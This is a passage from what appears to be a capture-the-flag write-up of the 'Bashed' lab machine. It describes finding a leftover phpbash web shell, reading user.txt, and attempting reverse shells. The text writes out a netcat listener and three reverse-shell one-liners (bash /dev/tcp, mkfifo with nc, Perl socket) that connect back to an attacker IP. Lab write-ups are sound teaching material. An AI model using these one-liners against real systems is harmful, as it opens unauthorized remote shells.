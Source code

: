 ```bash
===============================================================
2020/04/02 06:28:11 Finished
===============================================================
```

Some of these look pretty interesting. Checked `/uploads` and got a blank page, but opening `/dev` in a browser shows me a directory with two files listed: 

- `phpbash.min.php`
- `phpbash.php`

Clicking on `phpbash.php` opens up a shell on the webpage. It's safe to assume this shell was left over from the "development of phpbash" mentioned on the homepage of the website.

### Exploitation

Let's see if we can grab the `user.txt` proof.

```bash
www-data@bashed:/home/arrexel# cd /home/

www-data@bashed:/home# ls
arrexel
scriptmanager
www-data@bashed:/home# cd arrexel
www-data@bashed:/home/arrexel# ls
user.txt
www-data@bashed
:/home/arrexel# wc user.txt
1 1 33 user.txt
```

Great, now let's get a real shell. I'll start a `nc` listener on port 4321 on my local machine with:

```bash
$ nc -lvnp 4321
```

And run the following line on the `phpbash` shell on the website to try to get a reverse shell:

```bash
$ bash -i >&/dev/tcp/10.10.14.31/4321 0>&1
```

Aaaaand.... nothing. Let's try something else.

```bash
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.31 4321 >/tmp/f
```

Also nothing. Maybe this one?

```bash
 $ perl -e 'use Socket;$i="10.10.14.31";$p=4321;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
